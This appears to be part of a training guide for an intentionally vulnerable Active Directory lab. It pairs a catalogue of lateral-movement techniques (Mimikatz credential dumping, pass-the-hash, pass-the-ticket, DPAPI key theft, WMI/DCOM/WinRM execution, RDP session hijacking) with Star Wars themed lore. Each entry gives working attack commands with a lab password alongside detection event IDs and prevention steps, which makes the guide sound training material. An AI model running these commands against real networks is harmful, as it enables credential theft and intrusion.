**Prevention:** Enforce SMB signing via GPO (`Microsoft network server: Digitally sign communications (always) = Enabled`).

---

### LAT-043 — WDigest Credential Caching
**What it is:** WDigest authentication caches cleartext credentials in LSASS memory. If enabled, anyone with administrative privileges can dump cleartext passwords.
**Why it works here:** WDigest's `UseLogonCredential` is set to `1` (enabled) on `tatooine` and `scarif` (configured in `lateral_adv.yml`).
**Tools:** `Mimikatz`.
**Steps:**
```cmd
mimikatz# sekurlsa::wdigest
```
**Detection:** Sysmon Event ID `10` or Event ID `4656` showing LSASS memory access.
**Prevention:** Set `UseLogonCredential` to `0` under `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest`. Install updates that disable WDigest credential caching by default.

---

### LAT-044 — Credential Guard Disabled
**What it is:** Windows Defender Credential Guard uses virtualization-based security to isolate LSASS secrets. When disabled, password hashes and Kerberos tickets remain vulnerable to extraction from LSASS memory.
**Why it works here:** Virtualization-based security (`EnableVirtualizationBasedSecurity`) is disabled on member hosts `tatooine` and `scarif` (configured in `lateral_adv.yml`).
**Tools:** `Mimikatz`, `Rubeus`.
**Steps:**
```cmd
mimikatz# sekurlsa::logonpasswords
```
**Detection:** Check system info or MSInfo32 to verify Credential Guard status.
**Prevention:** Enable virtualization-based security and Credential Guard via GPO under `Computer Configuration -> Administrative Templates -> System -> Device Guard`.

---

### LAT-045 — Pass-the-Hash (PtH) via SMB
**What it is:** Pass-the-Hash allows an attacker to authenticate to a remote system over SMB using the NTLM hash of a user instead of their plaintext password.
**Why it works here:** SMB signing is disabled (LAT-042), and local administrator hashes are shared/exposed.
**Tools:** `impacket-psexec`, `nxc smb`.
**Steps:**
```bash
impacket-psexec EMPIRE/Administrator@10.10.0.13 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```
**Detection:** Event ID `4624` (Logon Type 3) using NTLM authentication package. Event ID `7045` (new service installed) from `PSEXESVC`.
**Prevention:** Require SMB signing. Restrict local administrator accounts using LAPS. Restrict administrative logins over network (GPO "Deny access to this computer from the network").

---

### LAT-046 — Pass-the-Ticket (PtT) via Rubeus/Mimikatz
**What it is:** Pass-the-Ticket is a lateral movement technique where a valid Kerberos TGT (Ticket Granting Ticket) or TGS (Ticket Granting Service) ticket is injected into the current logon session, allowing access to resources without knowing credentials.
**Why it works here:** LSASS is unprotected, allowing TGT/TGS tickets to be exported and injected.
**Tools:** `Rubeus`, `Mimikatz`.
**Steps:**
```cmd
# Inject a ticket:
Rubeus.exe ptt /ticket:$(BASE64_TICKET)
# Using Mimikatz:
mimikatz# kerberos::ptt ticket.kirbi
```
**Detection:** Event ID `4624` Logon Type 3 with Kerberos protocol. Ticket requests that do not match the originating computer's normal patterns.
**Prevention:** Enable Credential Guard. Restrict local admin access. Limit session ticket lifetime.

---

### LAT-047 — Overpass-the-Hash (TGT Request with NT Hash)
**What it is:** The attacker uses the NT hash of an account to request a Kerberos TGT from the KDC. This TGT can then be injected into memory (Pass-the-Ticket) for Kerberos-based lateral movement, which is stealthier than NTLM PtH.
**Why it works here:** Kerberos pre-authentication using RC4/AES is supported by the KDC.
**Tools:** `Rubeus`, `Mimikatz`.
**Steps:**
```cmd
Rubeus.exe asktgt /user:Administrator /rc4:$(NT_HASH) /domain:empire.local /ptt
```
**Detection:** Event ID `4768` (TGT request) with encryption type `0x17` (RC4) or `0x12` (AES256) without matching smart card settings.
**Prevention:** Disable weak encryption types like RC4. Implement Credential Guard.

---

### LAT-048 — Pass-the-Certificate (PKINIT with Shadow Credential Cert)
**What it is:** An attacker uses a cryptographic certificate (enrolled via Shadow Credentials or ADCS) to perform PKINIT pre-authentication, obtaining a Kerberos TGT for the target account.
**Why it works here:** PKINIT is enabled on domain controllers to support certificate-based authentication.
**Tools:** `Rubeus`, `Whisker`.
**Steps:**
```cmd
Rubeus.exe asktgt /user:tatooine$ /certificate:$(BASE64_CERT) /ptt
```
**Detection:** Event ID `4768` (TGT Request) with pre-authentication type `16` (PKINIT) and certificate issuer matching self-signed template.
**Prevention:** Monitor and restrict msDS-KeyCredentialLink write access. Restrict PKINIT authentication configuration.

---

### LAT-061 — DPAPI Key Theft (DPAPI-Based Lateral Movement)
**What it is:** The Data Protection API (DPAPI) is used to encrypt secrets (passwords, certificates) locally. The Domain Backup Key can decrypt any domain user's DPAPI master keys. By stealing the domain backup key (via DCSync), an attacker can decrypt any DPAPI masterkey and credentials stored on remote hosts.
**Why it works here:** The domain backup key can be extracted via DCSync (pre-configured).
**Tools:** `SharpDPAPI`, `mimikatz`, `impacket-dpapi`.
**Steps:**
```bash
# Export backup keys:
impacket-dpapi backupkeys --export -t empire.local/Administrator:EmpireLab2024!@10.10.0.10
# Decrypt a remote DPAPI blob:
SharpDPAPI.exe blob /pvkfile:domain_backupkey.pvk /target:blob.bin
```
**Detection:** Event ID `4662` or `5136` querying the DPAPI backup key object in Active Directory.
**Prevention:** Limit Domain Admin / DCSync rights. Restrict access to LSA secrets.

---

### LAT-070 — SSH Lateral Movement
**What it is:** If OpenSSH is installed on Windows hosts, attackers can authenticate using domain credentials or key reuse to establish remote shells or tunnels.
**Why it works here:** `scarif.empire.local` has OpenSSH installed with password authentication enabled (configured in `lateral_adv.yml`).
**Tools:** `ssh`, `scp`.
**Steps:**
```bash
ssh Administrator@10.10.0.13
# Setup local port forwarding tunnel:
ssh -L 3389:10.10.0.10:3389 Administrator@10.10.0.13
```
**Detection:** Event ID `4624` Logon Type 3 with Process Name `sshd.exe`. Outbound port 22 connections from atypical hosts.
**Prevention:** Disable SSH if not needed. Enforce key-based authentication only. Restrict login permissions in `sshd_config` (`AllowGroups`/`AllowUsers`).

---

### LAT-071 — DCOM Execution
**What it is:** DCOM (Distributed Component Object Model) allows applications to expose methods remotely. Attackers can call shell execution methods on COM objects like `MMC20.Application` or `ShellBrowserWindow` to run commands without leaving standard service logs.
**Why it works here:** DCOM is enabled, and `LegacyAuthenticationLevel` is lowered to 1 (allowing unauthenticated or weak DCOM activation) on `scarif` and `coruscant` (configured in `dcom_wmi.yml`).
**Tools:** `impacket-dcomexec`, `Invoke-DCOM`.
**Steps:**
```bash
impacket-dcomexec EMPIRE/Administrator:EmpireLab2024!@10.10.0.13 "cmd /c whoami"
```
**Detection:** Process creation events (Event ID `4688` / Sysmon `1`) showing `mmc.exe` or `explorer.exe` spawning `cmd.exe` or `powershell.exe`.
**Prevention:** Disable remote COM access. Require packet integrity authentication level for DCOM.

---

### LAT-072 — WMI Execution
**What it is:** Windows Management Instrumentation (WMI) can create processes remotely via the `Win32_Process` class.
**Why it works here:** The WMI service (`Winmgmt`) is running and enabled on member servers.
**Tools:** `impacket-wmiexec`, `Invoke-WmiMethod`, `nxc wmi`.
**Steps:**
```bash
impacket-wmiexec EMPIRE/Administrator:EmpireLab2024!@10.10.0.13 "cmd /c whoami"
# PowerShell equivalent:
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd /c whoami" -ComputerName scarif.empire.local
```
**Detection:** Process creation events where `WmiPrvSE.exe` is the parent process spawning shell executables like `cmd.exe` or `powershell.exe`.
**Prevention:** Restrict remote WMI access via DCOM permissions. Restrict RPC ports at host-level firewalls.

---

### LAT-073 — WinRM Remote Shell
**What it is:** Windows Remote Management (WinRM) is Microsoft's WS-Management protocol implementation. It provides shell execution over HTTP (5985) or HTTPS (5986).
**Why it works here:** WinRM listeners are configured and running on member servers (configured in `dcom_wmi.yml`).
**Tools:** `evil-winrm`.
**Steps:**
```bash
evil-winrm -i 10.10.0.13 -u Administrator -p 'EmpireLab2024!'
```
**Detection:** Event ID `4624` (Logon Type 3) with Process `wsmprovhost.exe`. Event IDs in `Microsoft-Windows-WinRM/Operational`.
**Prevention:** Restrict WinRM access using IP filters or Windows Firewall. Require HTTPS and client certificate authentication.

---

### LAT-074 — PSRemoting (with Domain Credentials)
**What it is:** PowerShell Remoting uses WinRM to execute PowerShell cmdlets on remote systems.
**Why it works here:** PSRemoting is enabled, and client `TrustedHosts` is set to `*` (configured in `dcom_wmi.yml`).
**Tools:** PowerShell `Enter-PSSession`, `Invoke-Command`.
**Steps:**
```powershell
Enter-PSSession -ComputerName scarif.empire.local -Credential $cred
Invoke-Command -ComputerName @('coruscant','scarif','tatooine') -ScriptBlock {whoami}
```
**Detection:** Event ID `400` / `800` in PowerShell logs. WinRM connection events.
**Prevention:** Disable PSRemoting where not needed. Restrict TrustedHosts settings.

---

### LAT-075 — RDP (NLA disabled)
**What it is:** Remote Desktop Protocol (RDP) allows full graphical session access. If Network Level Authentication (NLA) is disabled, attackers can access the login screen and potentially exploit RDP flaws or perform credential guessing without initiating a full session first.
**Why it works here:** RDP is enabled, and NLA is disabled (pre-configured via `IA-084` or GPO).
**Tools:** `xfreerdp`, `mstsc`.
**Steps:**
```bash
xfreerdp /v:10.10.0.13 /u:Administrator /p:'EmpireLab2024!'
```
**Detection:** Event ID `4624` (Logon Type 10) with protocol RDP. Event ID `4778` (Session reconnection).
**Prevention:** Enforce Network Level Authentication (NLA) via GPO (`Require user authentication for remote connections by using Network Level Authentication = Enabled`).

---

### LAT-076 — RDP Session Hijacking (tscon without password)
**What it is:** An attacker with `SYSTEM` privileges on a terminal server can hijack any disconnected or active RDP session using `tscon.exe` without knowing the user's password.
**Why it works here:** Disconnected RDP sessions of administrative users are allowed to persist (pre-configured in `dcom_wmi.yml`).
**Tools:** `tscon.exe`.
**Steps:**
```cmd
# List active sessions:
query session
# Hijack session 2:
tscon 2 /dest:console
# Or create a service to run as SYSTEM:
sc create hijack binpath="cmd /k tscon 2 /dest:rdp-tcp#0"
net start hijack
```
**Detection:** Event ID `4778` (Session Reconnection) showing a mismatch between the requesting user and the session owner.
**Prevention:** Set group policy to automatically log off disconnected sessions. Restrict local administrative access to terminal servers.

---

### LAT-080 — SCMExec (Service Control Manager Remote Execution)
**What it is:** Interaction with the remote Service Control Manager (SCM) allows creating and starting services to run arbitrary commands as `NT AUTHORITY\SYSTEM`.
**Why it works here:** SCM is remotely accessible, and SMB signing is disabled.
**Tools:** `impacket-psexec`, `impacket-smbexec`, `crackmapexec`.
**Steps:**
```bash
impacket-smbexec EMPIRE/Administrator:EmpireLab2024!@10.10.0.13
# CrackMapExec execution:
crackmapexec smb 10.10.0.13 -u Administrator -p 'EmpireLab2024!' -x "net user"
```
**Detection:** Event ID `7045` (New service installed) and `7036` (Service status changes).
**Prevention:** Enable SMB signing. Restrict access to SCM over RPC.

---

### LAT-090 — Remote Scheduled Task Lateral Movement
**What it is:** Administrative users can create, configure, and execute scheduled tasks on remote hosts over RPC (Task Scheduler service).
**Why it works here:** Task Scheduler RPC is enabled and accessible.
**Tools:** `impacket-atexec`, `Register-ScheduledTask`.
**Steps:**
```bash
impacket-atexec EMPIRE/Administrator:EmpireLab2024!@10.10.0.13 "cmd /c whoami > C:\output.txt"
# PowerShell equivalent:
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "Lat" -CimSession $session
```
**Detection:** Event ID `4698` (Scheduled task created) and `4702` (Scheduled task updated).
**Prevention:** Restrict remote RPC connections. Block access to Task Scheduler endpoints.

---

### LAT-095 — Named Pipe Impersonation / SMB Named Pipe Execution
**What it is:** Named Pipe impersonation allows a service running under a lower privilege to impersonate a higher-privileged client that connects to its pipe. In lateral movement, attackers can configure listeners on named pipes to handle incoming remote connections.
**Why it works here:** Named pipe permissions are standard, and Cobalt Strike / Havoc listeners can pivot using SMB named pipes.
**Tools:** `SpoolSample`, Cobalt Strike (`named_pipe_pivot`).
**Steps:**
```cmd
# Create custom named pipe:
CreateNamedPipe -> ConnectNamedPipe -> ImpersonateNamedPipeClient
```
**Detection:** Event ID `5145` (A network share object was checked) showing access to named pipe shares (e.g. `IPC$`).
**Prevention:** Restrict named pipe ACLs. Block unauthorized SMB traffic between internal workstations.

---

Next: [`05-privilege-escalation.md`](05-privilege-escalation.md).

---

# The EMPIRE AD Lab: Star Wars Lore & Thematic Mapping

Welcome to the **EMPIRE AD Lab**, where the intricacies of Active Directory align with the galactic struggle between the Galactic Empire, the Rebel Alliance, and the shadow syndicates. This section provides a conceptual thematic mapping between the AD concepts you are attacking and the Star Wars universe.

## The Galactic Topology

The lab topology represents the political structure of the galaxy. Just as trust relationships govern AD, diplomatic and military alliances govern the galaxy.

```mermaid
graph TD
    classDef empire fill:#000000,stroke:#ff0000,stroke-width:2px,color:#fff;
    classDef rebel fill:#2b5c8f,stroke:#ff9900,stroke-width:2px,color:#fff;
    classDef trade fill:#4a4a4a,stroke:#aaaaaa,stroke-width:2px,color:#fff;
    classDef highlight fill:#440000,stroke:#ff0000,stroke-width:3px,color:#fff;

    subgraph The Galactic Empire (empire.local)
        Coruscant["Coruscant (Root DC)<br/>coruscant.empire.local"]:::empire
        DeathStar["The Death Star (Child DC)<br/>deathstar.eu.empire.local"]:::highlight
        Scarif["Scarif Citadel (File Server)<br/>scarif.empire.local"]:::empire
        Kamino["Kamino Cloning Facility (SQL)<br/>kamino.empire.local"]:::empire
        Endor["Endor Shield Generator (CA)<br/>endor.empire.local"]:::empire
        Mandalore["Mandalore Mercenary Base (Linux)<br/>mandalore.empire.local"]:::empire
        Coruscant -- "Imperial Command" --> DeathStar
        Coruscant --- Scarif
        Coruscant --- Kamino
        Coruscant --- Endor
        Coruscant --- Mandalore
    end

    subgraph The Rebel Alliance (rebel.local)
        Yavin4["Yavin 4 Base<br/>yavin4.rebel.local"]:::rebel
    end

    subgraph The Trade Federation (trade.corp)
        Neimoidia["Cato Neimoidia<br/>neimoidia.trade.corp"]:::trade
    end

    Coruscant <-->|Espionage / External Trust| Yavin4
    Coruscant <-->|Treaty / Forest Trust| Neimoidia
```

## Infrastructure Mapping

Understanding the infrastructure is key to successfully executing your attack paths. Here is how the technical components of the EMPIRE AD lab map to the Star Wars universe:

### 1. The Core Domains
* **`empire.local` (The Galactic Empire):** The central root domain. This is the seat of the Emperor and the Imperial Senate. Taking over this domain is equivalent to taking over Coruscant. It controls all the core infrastructure.
* **`eu.empire.local` (The Death Star):** A child domain of `empire.local`. While it reports to the root domain, it holds immense power. Escaping the child domain to compromise the root domain is the equivalent of using the Death Star plans to destroy the Empire.
* **`rebel.local` (The Rebel Alliance):** An external forest. It has an external trust with the Empire (perhaps through espionage or captured spies). Moving laterally across this trust requires finding a weak link in the Rebel defenses.
* **`trade.corp` (The Trade Federation):** A separate forest with a bidirectional forest trust. The Empire uses them for resources, but you can forge trust tickets (Inter-Realm TGTs) to cross this boundary.

### 2. High-Value Targets (Servers)
* **`coruscant.empire.local` (Coruscant Root DC):** The ultimate prize. Achieving Domain Admin here gives you the keys to the galaxy.
* **`endor.empire.local` (Endor Shield Generator / ADCS):** Active Directory Certificate Services. If you can compromise the CA (via ESC1, ESC8, etc.), you can forge certificates for any user in the Empire, effectively bringing down the deflector shields.
* **`scarif.empire.local` (Scarif Citadel):** This file server hosts critical SMB shares. It is the repository of the Death Star plans. Look for exposed passwords in scripts or configuration files left by careless Imperial engineers.
* **`kamino.empire.local` (Kamino Facility):** The SQL Server. SQL injection or xp_cmdshell here can lead to a foothold. It represents the cloning facilities—a hidden source of power.
* **`mandalore.empire.local` (Mandalore Base):** The Linux-in-AD member. Contains local privilege escalations and cross-OS pivot opportunities. Represents the mercenary faction employed by the Empire.

### 3. Attack Paths and Tactics
* **Initial Access (The Smuggler's Route):** Finding an exposed SMB share or exploiting an LLMNR poisoning vulnerability (Responder) is like slipping past the Imperial blockade.
* **Kerberoasting (Bounty Hunting):** Requesting TGS tickets for service accounts and cracking them offline is like putting a bounty on a high-value target and cracking their encryption.
* **DCSync (The Force):** Using `secretsdump` to pull the `krbtgt` hash directly from the Domain Controller. It's an invisible, powerful attack that bypasses normal defenses.
* **Golden Ticket (Order 66):** Once you have the `krbtgt` hash, you can forge a TGT for any user, granting you infinite access. It is the ultimate executive order, overriding all security protocols.
* **Trust Abuse (Diplomatic Immunity):** Forging a trust ticket to cross from the Child Domain to the Root Domain.

## The Hacker's Code (Sith vs Jedi)
As you navigate the lab, remember that the tools you use define your path. Will you use noisy, aggressive tools (The Dark Side) that trigger every alarm, or will you use stealthy, precise tradecraft (The Light Side) to move undetected?

* **The Dark Side (Noisy):** Running `BloodHound` with all collection methods, spraying passwords across the entire domain, and dropping standard Mimikatz binaries to disk. It is powerful and fast, but leaves a massive trail.
* **The Light Side (Stealthy):** Targeted LDAP queries, memory-only execution via Covenant or Cobalt Strike, and careful evasion of logging (AMSI bypasses, ETW patching).

## Flag Locations (Holocrons)
Hidden throughout the EMPIRE AD lab are flags (Holocrons) that prove your mastery over the environment. Look for `FLAG-*.txt` files on desktops, hidden SMB shares, and within the SQL databases. 

**Remember:** 
* "Your focus determines your reality." - Qui-Gon Jinn. Focus on the attack paths mapped out in `PLAN.md`.
* "I find your lack of faith disturbing." - Darth Vader. If an exploit fails, check your syntax, your targeting, and the underlying misconfiguration. The lab is intentionally vulnerable.

May the Force be with you as you conquer the EMPIRE AD!
